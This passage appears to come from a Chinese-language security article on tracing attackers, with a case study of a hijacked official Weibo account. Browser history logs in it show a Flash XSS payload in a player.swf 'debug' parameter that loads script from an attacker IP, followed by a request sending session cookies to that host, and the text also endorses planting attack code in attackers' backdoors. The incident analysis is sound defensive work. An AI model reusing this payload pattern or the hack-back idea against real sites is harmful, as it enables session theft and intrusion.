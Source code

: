 * * *

一方面我们可以把被动的局面转变为主动的局面，在这种主动的局面下我们能够了解到攻击者都对我们做了什么事情，做到什么程度，他下一步的目标会是什么？最关键的我们能够知道攻击者是谁。

那么具体怎么做呢？就要用攻击者的方法反击攻击者。说起来简单，做起来可能就会发现很难，但是我们可以借助我们自身的优势，通过业务数据交叉对比来对攻击者了解更多，甚至可以在攻击者的后门里面加上攻击代码等。

0x04 案例之官微帐号被盗
==============

* * *

这是第一个案例，是官方微博帐号被盗的案例。首先看下面两张图片：

![enter image description here](http://drops.javaweb.org/uploads/images/f6f47890022c4cc3b626462ecc18e031c76ee675.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/0d425cb2d0aa394bbfd360317cb18331e494ebab.jpg)

某天我们的一个官方帐号突发连续发两条不正常的微博内容，看到第一条的时候还以为是工作人员小手一抖，test 到手，以为是工作人员的误操作，但是看到第二条微博的时候就已经能够判断帐号出了问题，具体是什么问题只能通过后面的分析才知道。

但是肯定的是这不是工作人员进行的操作，一方面在这种重要帐号的操作上有一些制度，其次是发布的内容也比较明显，根据发布的时间通过后台系统分析，该帐号有通过 cookie 在非公司 IP 进行过登录，但是我们的 cookie 是通过 httponly 进行保护的，how？

接下来锁定那个时间段操作过官方微博帐号同事的工作电脑，在其使用的火狐浏览器中发现有下面连续的几条访问记录：

```
==================================================
URL               : http://t.cn/zW*bUQ
Last Visit Date   : 2012-7-16 19:22:27
==================================================

==================================================
URL               : http://50.116.13.242/index.php
Last Visit Date   : 2012-7-16 19:22:28
Referrer          : http://t.cn/zW*bUQ
==================================================

==================================================
URL               : http://**.***.com/_common/jwplayer/player.swf?debug=(function(){location.href=%27javascript:%22%3Cscript/src=http://50.*.*.242/e.js%3E%3C/script%3E%22%27})
Last Visit Date   : 2012-7-16 19:22:28
Referrer          : http://50.116.13.242/index.php
Title             : player.swf (application/x-shockwave-flash 对象)
==================================================

==================================================
URL               : http://50.116.13.242/e.php?opener=0&cookie=ULV%3D1342421444188%3A342%3A12%3A1%3A306588567000.3021.1342421444076%3A1342141514702%3B%20__utma%3D182865017.844076418.1336462885.1341536058.1341543017.15%3B%20__utmz%3D182865017.1341473198.13.8.utmcsr%3Dweibo.com%7Cutmccn%3D%28referral%29%7Cutmcmd%3Dreferral%7Cutmcct%3D/breakingnews%3B%20vjuids%3Ddae3c1e13.1369ca9b037.0.1a9eb5f46e6ac8%3B%20vjlast%3D1334068228.1341096989.11%3B%20UOR%3D%2C%2C%3B%20un%3D*@sina.com%3B%20wvr%3D3.6%3B%20_s_tentry%3Dnews.sina.com.cn%3B%20Apache%3D306588567000.3021.1342421444076%3B%20SINAGLOBAL%3D306588567000.3021.1342421444076%3B%20SUS%3DSID-1618051664-1342421545-XD-z8hcn-efefbc9f4464bf215caf1d6b0da488bf%3B%20SUE%3Des%253D5937b4f4509871fc45195767ea7abe37%2526ev%253Dv1%2526es2%253Da42f0190f7b1f5137f761f625bbe0e81%2526rs0%253DpnLlydVz7IsdBcHbRCS8Tdb1KmHl7c%25252F758lHMKQRftFZBm9EDKoFVF7jexRKPF8CpY3rjGOora0pZ%25252FyDJSaDWJxRQn020MpsJxXhf5NdP2h3jfo2V%25252FoQgA0olYEWGJNQIDFZDfkndhSSXCp%25252BldHRW%25252BkEMwhvhY4p3xR0Ki5ja94%25253D%2
Last Visit Date   : 2012-7-16 19:22:31
Referrer          : http://**.***.com/_common/jwplayer/player.swf?debug=(function(){location.href=%27javascript:%22%3Cscript/src=http://50.*.*.242/e.js%3E%3C/script%3E%22%27})
==================================================

```
